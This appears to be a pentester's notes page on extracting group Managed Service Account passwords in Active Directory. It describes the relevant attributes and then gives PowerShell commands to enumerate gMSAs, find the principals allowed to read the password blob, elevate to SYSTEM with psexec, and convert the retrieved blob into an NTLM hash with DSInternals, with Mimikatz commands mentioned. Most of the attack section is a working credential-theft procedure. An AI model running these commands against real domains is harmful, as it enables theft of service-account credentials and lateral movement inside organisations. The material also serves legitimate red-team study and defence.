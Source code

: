 ### Description

* A group Managed Service Account (gMSA) provides automatic password management, SPN management and delegated administration for service accounts across multiple servers
* Use of gMSA is recommended to protect from Kerberoast type attacks!
* A 256 bytes random password is generated and is rotated every 30 days.
* When an authorized user reads the attribute 'msds-ManagedPassword’ the gMSA password is computed
* Only explicitly specified principals can read the password blob. Even the Domain Admins can't read it by default.
* A gMSA has object class 'msDS-GroupManagedServiceAccount'. This can be used to find the accounts.
* The attribute 'msDS-GroupMSAMembership' (PrincipalsAllowedToRetrieveManagedPassword) lists the principals that can read the password blob. This can be computers or users.
* The attribute 'msDS-ManagedPassword' stores the password blob in binary form of MSDS-MANAGEDPASSWORD\_BLOB
* Once we have compromised a principal that can read the blob. Use ADModule to read and DSInternals to compute NTLM hash
* The 'CurrentPassword' attribute in the $decodedpwd contains the clear-text password but cannot be typed!
* When computer account is needed for the PW you need a SYSTEM prompt to act with the computer account to DC
  * Here I use PSEXEC to spawn a command shell running under the context of the local SYSTEM account. Once running as SYSTEM, we can perform the same action as shown above. The computer account has the right to pull the password, but not a user on that computer, so I elevate to SYSTEM which then interacts with AD as the associated AD computer account. Now I can get the GMSA password.
  * psexec -i -s powershell.exe

### Requirement

### Tool

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">1. Enumerate where gMSA is used (User)
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'

ADModule
Get-ADServiceAccount -Filter *
<strong>
</strong><strong>2. Read what pricipals can read the PW from the gMSA
</strong><strong>ADModule
</strong>Import-Module .\Microsoft.ActiveDirectory.Management.dll
import-module .\ActiveDirectory\ActiveDirectory.psd1
<strong>Get-ADServiceAccount -Identity usernameHere -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
</strong>

2. Exploit
Once we have compromised a principal that can read the blob open a shell as the user

*Get Hash on a server*
You need to use Sekurlsa::ekeys / sekurlsa:logonpasswords ntlm hash wont show

$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Decode it and convert to NTLM (clear text pw is not writeable)
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
